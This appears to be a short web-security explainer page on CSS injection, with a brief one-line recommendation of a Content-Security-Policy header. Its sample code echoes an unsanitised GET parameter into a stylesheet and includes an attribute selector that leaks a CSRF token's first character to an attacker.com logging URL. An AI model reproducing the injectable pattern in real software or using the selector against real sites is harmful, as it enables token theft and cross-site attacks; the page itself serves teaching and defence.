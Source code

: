 ```yaml
---
title: 'CSS Injection'
description: 'An attacker manages to upload malicious CSS code to your website which will run on your visitors browsers.'
pubDate: 'Jul 08 2022'
heroImage: '/cssi.png'
slug: 'vulnerabilities/cssi'
---
```


```javascript
p {
    color: <?php echo $_GET['color']; ?>;
    text-align: center;
}

input[name=csrf_token][value=^a] {
    background-image: url(http://attacker.com/log?a);
}

```

### How to protect

Is using CSP Header (Content-Security-Policy) which allows you to prevent browsers from executing malicious code on your website.
